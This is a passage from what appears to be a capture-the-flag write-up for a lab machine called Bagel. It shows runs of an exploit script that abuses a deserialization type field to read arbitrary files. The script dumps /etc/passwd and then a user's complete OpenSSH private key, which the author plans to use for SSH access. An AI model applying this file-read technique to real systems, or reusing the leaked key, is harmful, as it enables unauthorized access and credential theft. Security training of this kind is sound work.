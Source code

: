 Checking it with the `/etc/passwd` , it worked like a charm

```jsx
❯ python3 interact_bagel.py

{'UserId': 0, 'Session': 'Unauthorized', 'Time': '8:54:05', 'RemoveOrder': {'$type': 'bagel_server.File, bagel', 'ReadFile': 'root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:/sbin:/bin/sync\nshutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\nhalt:x:7:0:halt:/sbin:/sbin/halt\nmail:x:8:12:mail:/var/spool/mail:/sbin/nologin\noperator:x:11:0:operator:/root:/sbin/nologin\ngames:x:12:100:games:/usr/games:/sbin/nologin\nftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\nnobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin\ndbus:x:81:81:System message bus:/:/sbin/nologin\ntss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin\nsystemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin\nsystemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin\nsystemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin\npolkitd:x:998:997:User for polkitd:/:/sbin/nologin\nrpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\nabrt:x:173:173::/etc/abrt:/sbin/nologin\nsetroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin\ncockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin\ncockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin\nrpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\nsshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin\nchrony:x:994:992::/var/lib/chrony:/sbin/nologin\ndnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\nsystemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin\nsystemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin\ndeveloper:x:1000:1000::/home/developer:/bin/bash\nphil:x:1001:1001::/home/phil:/bin/bash\n_laurel:x:987:987::/var/log/laurel:/bin/false', 'WriteFile': None}, 'WriteOrder': None, 'ReadOrder': None}
```

Next, we can get the private key of the `phil` user which we can use for SSH:

```jsx
❯ python3 interact_bagel.py

{'UserId': 0, 'Session': 'Unauthorized', 'Time': '8:55:19', 'RemoveOrder': {'$type': 'bagel_server.File, bagel', 'ReadFile': '-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAYEAuhIcD7KiWMN8eMlmhdKLDclnn0bXShuMjBYpL5qdhw8m1Re3Ud+2\ns8SIkkk0KmIYED3c7aSC8C74FmvSDxTtNOd3T/iePRZOBf5CW3gZapHh+mNOrSZk13F28N\ndZiev5vBubKayIfcG8QpkIPbfqwXhKR+qCsfqS//bAMtyHkNn3n9cg7ZrhufiYCkg9jBjO\nZL4+rw4UyWsONsTdvil6tlc41PXyETJat6dTHSHTKz+S7lL4wR/I+saVvj8KgoYtDCE1sV\nVftUZhkFImSL2ApxIv7tYmeJbombYff1SqjHAkdX9VKA0gM0zS7but3/klYq6g3l+NEZOC\nM0/I+30oaBoXCjvupMswiY/oV9UF7HNruDdo06hEu0ymAoGninXaph+ozjdY17PxNtqFfT\neYBgBoiRW7hnY3cZpv3dLqzQiEqHlsnx2ha/A8UhvLqYA6PfruLEMxJVoDpmvvn9yFWxU1\nYvkqYaIdirOtX/h25gvfTNvlzxuwNczjS7gGP4XDAAAFgA50jZ4OdI2eAAAAB3NzaC1yc2\nEAAAGBALoSHA+yoljDfHjJZoXSiw3JZ59G10objIwWKS+anYcPJtUXt1HftrPEiJJJNCpi\nGBA93O2kgvAu+BZr0g8U7TTnd0/4nj0WTgX+Qlt4GWqR4fpjTq0mZNdxdvDXWYnr+bwbmy\nmsiH3BvEKZCD236sF4SkfqgrH6kv/2wDLch5DZ95/XIO2a4bn4mApIPYwYzmS+Pq8OFMlr\nDjbE3b4perZXONT18hEyWrenUx0h0ys/ku5S+MEfyPrGlb4/CoKGLQwhNbFVX7VGYZBSJk\ni9gKcSL+7WJniW6Jm2H39UqoxwJHV/VSgNIDNM0u27rd/5JWKuoN5fjRGTgjNPyPt9KGga\nFwo77qTLMImP6FfVBexza7g3aNOoRLtMpgKBp4p12qYfqM43WNez8TbahX03mAYAaIkVu4\nZ2N3Gab93S6s0IhKh5bJ8doWvwPFIby6mAOj367ixDMSVaA6Zr75/chVsVNWL5KmGiHYqz\nrV/4duYL30zb5c8bsDXM40u4Bj+FwwAAAAMBAAEAAAGABzEAtDbmTvinykHgKgKfg6OuUx\nU+DL5C1WuA/QAWuz44maOmOmCjdZA1M+vmzbzU+NRMZtYJhlsNzAQLN2dKuIw56+xnnBrx\nzFMSTw5IBcPoEFWxzvaqs4OFD/QGM0CBDKY1WYLpXGyfXv/ZkXmpLLbsHAgpD2ZV6ovwy9\n1L971xdGaLx3e3VBtb5q3VXyFs4UF4N71kXmuoBzG6OImluf+vI/tgCXv38uXhcK66odgQ\nPn6CTk0VsD5oLVUYjfZ0ipmfIb1rCXL410V7H1DNeUJeg4hFjzxQnRUiWb2Wmwjx5efeOR\nO1eDvHML3/X4WivARfd7XMZZyfB3JNJbynVRZPr/DEJ/owKRDSjbzem81TiO4Zh06OiiqS\n+itCwDdFq4RvAF+YlK9Mmit3/QbMVTsL7GodRAvRzsf1dFB+Ot+tNMU73Uy1hzIi06J57P\nWRATokDV/Ta7gYeuGJfjdb5cu61oTKbXdUV9WtyBhk1IjJ9l0Bit/mQyTRmJ5KH+CtAAAA\nwFpnmvzlvR+gubfmAhybWapfAn5+3yTDjcLSMdYmTcjoBOgC4lsgGYGd7GsuIMgowwrGDJ\nvE1yAS1vCest9D51grY4uLtjJ65KQ249fwbsOMJKZ8xppWE3jPxBWmHHUok8VXx2jL0B6n\nxQWmaLh5egc0gyZQhOmhO/5g/WwzTpLcfD093V6eMevWDCirXrsQqyIenEA1WN1Dcn+V7r\nDyLjljQtfPG6wXinfmb18qP3e9NT9MR8SKgl/sRiEf8f19CAAAAMEA/8ZJy69MY0fvLDHT\nWhI0LFnIVoBab3r3Ys5o4RzacsHPvVeUuwJwqCT/IpIp7pVxWwS5mXiFFVtiwjeHqpsNZK\nEU1QTQZ5ydok7yi57xYLxsprUcrH1a4/x4KjD1Y9ijCM24DknenyjrB0l2DsKbBBUT42Rb\nzHYDsq2CatGezy1fx4EGFoBQ5nEl7LNcdGBhqnssQsmtB/Bsx94LCZQcsIBkIHXB8fraNm\niOExHKnkuSVqEBwWi5A2UPft+avpJfAAAAwQC6PBf90h7mG/zECXFPQVIPj1uKrwRb6V9g\nGDCXgqXxMqTaZd348xEnKLkUnOrFbk3RzDBcw49GXaQlPPSM4z05AMJzixi0xO25XO/Zp2\niH8ESvo55GCvDQXTH6if7dSVHtmf5MSbM5YqlXw2BlL/yqT+DmBsuADQYU19aO9LWUIhJj\neHolE3PVPNAeZe4zIfjaN9Gcu4NWgA6YS5jpVUE2UyyWIKPrBJcmNDCGzY7EqthzQzWr4K\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----', 'WriteFile': None}, 'WriteOrder': None, 'ReadOrder': None}
```